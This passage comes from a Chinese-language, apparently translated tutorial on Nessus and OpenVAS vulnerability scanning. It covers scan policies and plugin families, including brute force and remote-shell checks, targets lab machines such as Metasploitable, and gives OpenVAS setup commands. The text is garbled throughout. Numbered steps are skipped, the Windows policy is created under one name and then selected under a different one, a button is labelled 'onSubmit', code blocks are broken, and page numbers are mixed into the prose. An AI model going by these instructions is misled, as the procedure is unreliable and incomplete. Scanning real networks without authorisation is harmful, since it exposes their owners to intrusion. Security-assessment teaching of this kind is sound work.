

4. 在 `General Settings`（常规设置）选项卡上，执行以下任务：
   1. 在 `Settings Type`（设置类型）下，选择 `Basic`（基本）。
   3. Visibility（可见性）有两个选项：
      - Shared（共享）：其他用户可以使用此扫描
      - Private（私有）：此扫描仅供你使用
   4. 页面其余项目保持默认设置。
   5. 点击 `Update`（更新）。

5. 在 `Plugins`（插件）选项卡上，选择 `Disable All`（禁用全部）并以下特定漏洞：
   - Ubuntu Local Security Checks（Ubuntu 本地安全检查）
   - Default Unix Accounts（默认 Unix 账户）
6. 点击 `Update` 保存新策略。



8. 点击 `New Scan`（新建扫描）按钮并执行以下任务：
   1. 为扫描命名。如果你将同时运行多个扫描，这非常有用。它是区分当前正在运行扫描的方法。
   2. 输入扫描类型：
      - Run Now（立即运行）：默认启用，此选项将立即运行此扫描
      - Scheduled（计划）：允许你选择运行扫描的日期和时间
      - Template（模板）：允许你将此扫描设置为模板
   3. 选择扫描策略。在这种情况下，选择我们之前在教程中创建的 `Local Vulnerabilities Assessment` 策略。
      - 目标必须每行输入
      - 你也可以在每行输入目标范围
   5. 你也可以上传目标文件（如果有的话）或选择 `Add Target`（添加目标）IP 地址。
9. 点击 `Run Scan`（运行扫描）。


10. 你将收到确认，测试将完成（取决于选择了多少目标以及执行了多少次测试）。
11. 完成后，你将收到报告。
12. 双击报告以分析以下点（在 `Results` 选项卡上）：
    - 双击 IP 地址查看每个端口上的端口和问题
    - 点击数字获取发现的特定问题/漏洞列表
    - 漏洞将详细列出
13. 从 `Reports`（报告）主菜单点击 `Download Report`（下载报告）。

### Nessus - 寻找网络漏洞
Nessus 允许我们根据更新源攻击广泛的漏洞，我们将目标漏洞评估列表限制在那些我们寻求从评估中获取的特定类型信息的漏洞上。在本教程中，我们将配置 Nessus 来寻找目标上的网络漏洞。这些是针对我们网络中机器或协议的特定漏洞。

### 准备工作
要完成本教程，你需要以下虚拟机进行测试：
- Windows 7
- Metasploitable 2.0
- 网络防火墙或路由器
- 任何发行版的 Linux



## 如何操作...
让我们通过打开 Mozilla Firefox 浏览器来开始使用 Nessus 寻找网络漏洞的过程：

2. 进入 `Policies`（策略）。
3. 点击 `Add Policy`（添加策略）。
4. 在 `General`（常规）选项卡上，执行以下任务：
   1. 为扫描命名。我们选择了 `Internal Network Scan`。
   2. Visibility（可见性）有两个选项：
      - Shared（共享）：其他用户可以使用此扫描
      - Private（私有）：此扫描仅供你使用
   3. 页面其余项目保持默认设置。
   4. 点击 `Update`（更新）。


5. 在 `Plugins`（插件）选项卡上，点击 `Disable All`（禁用全部）并以下特定漏洞：
   - CISCO
   - DNS
   - Default Unix Accounts（默认 Unix 账户）
   - FTP
   - Firewalls（防火墙）
   - Gain a shell remotely（远程获取 shell）
   - General（常规）
   - Netware
   - Policy Compliance（策略合规）
   - Port Scanners（端口扫描）
   - SCADA
   - SMTP Problems（SMTP 问题）
   - SNMP
   - Service Detection（服务检测）
   - Settings（设置）
6. 点击 `Update` 保存新策略。
7. 在主菜单上，点击 `Scan Queue`（扫描队列）菜单选项。
8. 点击 `New Scan`（新建扫描）按钮并执行以下任务：
   2. 输入扫描类型：
      - Run Now（立即运行）：默认启用，此选项将立即运行扫描
      - Scheduled（计划）：允许你选择执行扫描的日期和时间
      - Template（模板）：允许你将此扫描设置为模板
   3. 选择扫描策略。在这种情况下，选择我们之前在教程中创建的 `Internal Network Scan` 策略。
   4. 考虑以下几点选择目标：
      - 目标必须每行输入
      - 你也可以在每行输入目标范围
   5. 你也可以上传目标文件（如果有的话）或选择 `Add Target`（添加目标）IP 地址。
9. 点击 `Run Scan`（运行扫描）。


11. 完成后，你将在 `Results` 标签页中收到一份报告。
12. 双击报告以分析以下几点：
    - 将列出每个发现漏洞的目标主机
    - 双击 IP 地址以查看每个端口上的端口和问题
    - 点击列下的数字以获取发现的具体问题/漏洞列表
    - 漏洞将详细列出

### Nessus - 寻找 Linux 特有的漏洞

在本教程中，我们将探索如何使用 Nessus 寻找 Linux 特有的漏洞。这些漏洞是针对我们网络中运行 Linux 系统的机器的特定漏洞。

### 准备工作
要完成本教程，你需要一个或多个虚拟机进行测试：
- Metasploitable 2.0
- 任何其他发行种的 Linux



### 漏洞评估
## 如何操作...
让我们通过打开 Mozilla Firefox 浏览器，开始使用 Nessus 寻找 Linux 特有的漏洞的过程：

1. 登录 `http://127.0.0.1:8834` 进入 Nessus。
2. 进入 `Policies`（策略）。
3. 点击 `Add Policy`（添加策略）。
4. 在 `General Settings`（常规设置）标签页上执行以下任务：
    2. Visibility（可见性）有两个选项：
        - Shared（共享）：其他用户可以使用此扫描
        - Private（私有）：此扫描仅供你使用
    3. 页面上其余项目保持默认。

106

第 5 章

5. 在 `Plugins`（插件）标签页上，点击 `Disable All` 并输入以下特定的漏洞。由于此列表将会非常长，因为我们正在扫描可能运行在 Linux 目标上的服务：
    - Brute Force Attacks（暴力破解）
    - CentOS Local Security Checks（CentOS 本地安全检查）
    - DNS
    - Debian Local Security Checks（Debian 本地安全检查）
    - Default Unix Accounts（默认 Unix 账户）
    - Denial of Service（拒绝服务）
    - FTP
    - Fedora Local Security Checks（Fedora 本地安全检查）
    - Firewalls（防火墙）
    - FreeBSD Local Security Checks（FreeBSD 本地安全检查）
    - General（通用）
    - Gentoo Local Security Checks（Gentoo 本地安全检查）
    - HP-UX Local Security Checks（HP-UX 本地安全检查）
    - Mandriva Local Security Checks（Mandriva 本地安全检查）
    - Misc（杂项）
    - Port Scanners（端口扫描器）
    - Red Hat Local Security Checks（Red Hat 本地安全检查）
    - SMTP Problems（SMTP 问题）
    - SNMP
    - Scientific Linux Security Checks（Scientific Linux 安全检查）
    - Solaris Local Security Checks（Solaris 本地安全检查）
    - SuSE Local Security Checks（SuSE 本地安全检查）
    - Ubuntu Local Security Checks（Ubuntu 本地安全检查）
    - Web Servers（Web 服务器）

107

漏洞评估

6. 点击 `Update`（更新）保存你的新策略。
8. 按 `New Scan`（新建扫描）按钮执行以下任务：
    1. 为你的扫描输入名称。如果你同时运行多个扫描，这非常有用。它可以区分当前运行的扫描。
    2. 输入扫描类型：
        - Run Now（立即运行）：默认启用，这将导致扫描立即执行
        - Scheduled（计划）：允许你选择扫描执行的日期和
        - Template（模板）：允许你将此扫描设置为模板
    3. 选择扫描策略。在这种情况下，选择我们之前创建的 `Linux Vulnerabilities Scan` 策略。

108


4. 考虑以下几点选择你的目标：
    - 目标必须每行输入
    - 你也可以在每行输入目标范围
    - 上传目标文件（如果有的话）或选择 `Add Target IP Address`（添加目标 IP 地址）
9. 点击 `Launch Scan`（启动扫描）。
10. 你将获得确认且测试将完成（取决于选择了多少目标以及执行了多少测试）。
11. 完成后，你将在 `Reports` 标签页中收到一份报告。
12. 双击报告以分析以下几点：
    - 将列出每个发现漏洞的目标主机
    - 点击列下的数字以获取发现的具体问题/漏洞列表
    - 漏洞将详细列出
13. 从 `Reports` 主菜单点击 `Download Report`（下载报告）。

109

漏洞评估

### Nessus - 寻找 Windows 特有的漏洞


### 准备工作
要完成本教程，你需要一个或多个虚拟机进行测试：
- Windows XP
- Windows 7

## 如何操作...
让我们通过打开 Mozilla Firefox 浏览器，开始使用 Nessus 寻找 Windows 特有的漏洞的过程：

1. 登录 `http://127.0.0.1:8834` 进入 Nessus。
3. 点击 `Add Policy`（添加策略）。

110

第 5 章

4. 在 `General Settings`（常规设置）标签页上执行以下任务：
    1. 为你的扫描输入名称。我们选择了 `Windowsability Scan`，但你可以选择任何喜欢的名称。
    2. Visibility（可见性）有两个选项：
        - Shared（共享）：其他用户可以使用此扫描
    3. 页面上其余项目保持默认。
    4. 点击 `onSubmit`。
5. 在 `Plugins`（插件）标签页上，点击 `Disable All` 并输入以下可能出现在 Windows 系统上的漏洞：
    - DNS
    - Databases（数据库）
    - Denial of Service（拒绝服务）
    - FTP
    - SMTP Problems（SMTP 问题）
    - SNMP
    - Settings（设置）
    - Windows bulletins（Windows 公告）
    - Windows User management（Windows 用户管理）

111

漏洞评估

6. 点击 `onSubmit` 保存你的新策略。
7. 在主菜单上，点击 `Scan Queue`（扫描队列）选项。
8. 按 `New Scan`（新建扫描）按钮执行以下任务：
    2. 输入扫描类型：
        - Run Now（立即运行）：默认启用，这将导致扫描立即执行
        - Scheduled（计划）：允许你选择扫描执行的日期和
        - Template（模板）：允许你将此扫描设置为模板
    3. 选择扫描策略。在这种情况下，选择 `Windows Vulnerabilities Scan`。
4. 考虑以下几点选择你的目标：
    - 目标必须每行输入
    - 你也可以在每行输入目标范围
    - 上传目标文件（如果有的话）或选择 `Add Target IP Address`（添加目标 IP 地址）
9. 点击 `Launch Scan`（启动扫描）。
112

第 5 章

11. 完成后，你将收到一份报告。
12. 双击报告以分析以下几点：
    - 将列出每个发现漏洞的目标主机
    - 双击 IP 地址以查看每个端口上的端口和问题
    - 点击列下的数字以获取发现的具体问题/漏洞列表
    - 漏洞将详细列出


OpenVAS，即开放漏洞评估系统，是一个优秀的框架，可用于评估我们目标的漏洞。它是 Nessus 项目的一个分支。与 Nessus 不同，OpenVAS 完全免费提供其馈送（feeds）。由于 OpenVAS 是 Kali Linux 的标准配置之一，我们将从配置开始。

### 准备工作

完成此配谱需要连接互联网。


让我们通过终端窗口导航到其目录，开始安装、配置和启动 OpenVAS 的过程：

1. OpenVAS 默认已安装，只需对其进行配置即可使用。
2. 从终端窗口中，将目录更改到 OpenVAS 目录：
```bash
cd /usr/share/openvas/
```


### 漏洞评估

3. 执行以下命令：
```bash
openvas-mkcert
```

我们在这一步中正在执行的操作是为 OpenVAS 程序创建 SSL 证书：

1. 保持 CA 证书的默认有效期不变。
3. 输入国家。
4. 输入州或省（如果需要）。
5. 将组织名称保持为默认。
6. 你将看到证书确认屏幕，然后按 `Enter` 退出。

4. 执行以下命令：
```bash
openvas-nvt-sync
```




5. 执行以下命令：
```bash
openvas-mkcert-client -n om -i openvasmd -rebuild
```
这将分别生成客户端证书并重建数据库。

6. 执行以下命令：
openvassd
```
这将启动 OpenVAS 扫描器并加载所有插件（约 26,406 个），因此这可能需要一些时间。

7. 执行以下命令：
```bash
openvasmd --rebuild
openvasmd --backup
```
这些命令将重建并创建数据库的备份。
8. 执行以下命令创建你的管理员用户（我们使用 `openvasadmin`）：
```bash
openvasad -c 'add_user' -n openvasadmin -r admin
```

9. 执行以下命令：
```bash
openvas-adduser
```


这将允许你创建一个普通用户：

1. 输入登录名。
2. 在身份验证请求上按 `Enter`（会自动选择密码）。
3. 输入两次密码。
4. 对于规则，按 `Ctrl+D`。
5. 按 `Y` 添加用户。

10. 执行以下命令来配置 OpenVAS 将交互的端口：
openvasmd -p 9390 -a 127.0.0.1
openvasad -a 127.0.0.1 -p 9393
gsad --http-only --listen=127.0.0.1 -p 9392
```
`9392` 是 Web 浏览器的端口，但你可以选择自己的端口。


11. 在浏览器中访问 `http://127.0.0.1:9392` 查看 OpenVAS Web 界面。


在本次配谱中，我们首先打开终端窗口并通过仓库安装了 OpenVAS。然后我们创建了证书并安装了插件数据库。接下来，我们创建了一个管理员和一个普通用户账户。最后，我们启动了 OpenVAS 的 Web 界面并出现了登录屏幕。每当你对 OpenVAS 执行操作时，你都需要重建数据库。


### 更多内容...

本节解释了关于启动 OpenVAS 的额外信息。

### 设置 SSH 脚本启动 OpenVAS
每当你想要运行 OpenVAS 时，你需要：
1. 同步 NVT 馈送（一直是个好主意，因为这些项目会随着新漏洞的发现而变化）。
2. 启动 OpenVAS 扫描器。
3. 重建数据库。
4. 备份数据库。
5. 配置你的端口。

为了节省时间，以下是一个允许你启动 OpenVAS 的简单 Bash 脚本。将此文件保存为 `OpenVAS` 并放置在 `/root` 文件夹中：
```bash
#!/bin/bash
openvassd
openvasmd --rebuild
openvasmd --backup
openvasmd -p 9390 -a 127.0.0.1
openvasad -a 127.0.0.1 -p 9393
gsad --http-only --listen=127.0.0.1 -p 9392
```




可选，你可以通过 OpenVAS Desktop 执行相同的步骤。OpenVAS Desktop 是一个基于 GUI 的应用程序。要启动该应用程序：
1. 从 Kali Linux 菜单中如截图所示，导航到 `Applications`|`Kali Linux`|`Vulnerability Assessment`|`Vulnerability Scanners`|`OpenVAS`|`Start Green Security Desktop`。
2. 通过 OpenVAS Desktop 可以执行相同的步骤。
3. 启动应用程序后，你会看到登录界面。
4. 每次你对 OpenVAS 执行操作时，你都需要重建数据库。



### OpenVAS - 漏洞
我们可以通过 OpenVAS 扫描一些漏洞。

## 如何操作...

在本次配谱中，我们 ` `127.0.0.1:9392` 浏览器中打开 OpenVAS 界面并登录。
1. 进入 `Configuration`|`Scans`。
2. 我们现在创建一个扫描配置。
3. 在此配谱中，我们使用 `Local Vulnerabilities`。
4. 我们的扫描配置是 `static`。我们选择 `fast`。
5. 点击 `Scan Config`。
